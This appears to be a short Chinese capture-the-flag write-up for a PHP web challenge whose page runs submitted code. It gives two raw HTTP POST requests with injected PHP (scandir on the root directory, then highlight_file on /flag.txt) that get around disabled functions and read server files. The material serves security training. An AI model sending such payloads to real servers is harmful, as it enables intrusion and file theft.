


# mlzx_web67

原地址：[GZCTF-challenges/mlzx/mlzx_web67](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web67)

`show_source` 和 `print_r` 被禁用

使用 `c=var_dump(scandir('/'));` 获取 flag 位置

```http
POST / HTTP/1.1
Host: 10.52.84.140:50744
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=var_dump(scandir('/'));
```



使用 `c=highlight_file('/flag.txt');` 获取 flag

```http
POST / HTTP/1.1
Host: 10.52.84.140:50744
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=highlight_file('/flag.txt');
```

